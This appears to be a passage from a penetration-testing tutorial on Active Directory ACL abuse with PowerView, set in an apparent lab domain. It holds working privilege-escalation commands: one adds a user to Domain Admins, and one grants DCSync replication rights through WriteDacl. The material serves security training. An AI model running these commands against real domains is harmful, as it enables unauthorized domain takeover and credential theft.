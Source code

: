 #### `Get-DomainObjectAcl -Identity 'Domain Admins' -ResolveGUIDs`

  * **What it does:** This command acts as a precision tool, allowing you to retrieve and inspect the full ACL for a specific object. In this example, it's dumping all the permissions on the "Domain Admins" group object itself.
  * **When to use it:** When you've identified a high-value target (like a specific user, computer, or group) and you want to perform a deep-dive analysis to see exactly who has what permissions on it.
  * **Example Command:**
    ```powershell
    Get-DomainObjectAcl -Identity 'Domain Admins' -ResolveGUIDs | ? { $_.ActiveDirectoryRights -notlike "*Read*" }
    ```
  * **Options:**
      * `-Identity 'Domain Admins'`: Specifies the object you want to investigate.
      * `? { $_.ActiveDirectoryRights -notlike "*Read*" }`: A PowerShell filter to remove common, low-impact "Read" permissions from the output, helping you focus on the dangerous "Write" or "All" permissions.

-----

### Mapping Privileges to Exploits

Here is a detailed breakdown of the most commonly abused permissions and the exact commands used to exploit them.

#### Privilege: `GenericAll`

  * **What it means:** The holder has **full control** over the target object. This is the highest level of privilege.
  * **How to Exploit:** You can do anything you want. The most common abuse is to add yourself or a user you control to the target group if it's a group object.
  * **Example Exploit (adding user 'forend' to the 'Domain Admins' group):**
    ```powershell
    Add-DomainGroupMember -Identity 'Domain Admins' -Members 'forend'
    ```

#### Privilege: `WriteDacl`

  * **What it means:** The holder can **write to the Discretionary Access Control List (DACL)**. This means they can modify the permissions of the object.
  * **How to Exploit:** This is the "god mode" of ACL rights. If you have `WriteDacl` on an object, you can give yourself any other permission you want, such as `GenericAll` or the specific rights needed for a DCSync attack.
  * **Example Exploit (granting your user 'forend' DCSync rights on the domain):**
    ```powershell
    $User = 'INLANEFREIGHT\forend'
    # The two GUIDs for DCSync rights
    $DCSyncGUIDs = @('1131f6aa-9c07-11d1-f79f-00c04fc2dcd2', '1131f6ad-9c07-11d1-f79f-00c04fc2dcd2')
    # Get the domain's root object
    $Domain = Get-ADDomain
    # Add an ACE for each DCSync right
    $DCSyncGUIDs | %{ Add-DomainObjectAcl -TargetIdentity $Domain.DistinguishedName -PrincipalIdentity $User -Rights All -ObjectType $_ -Verbose }
    ```
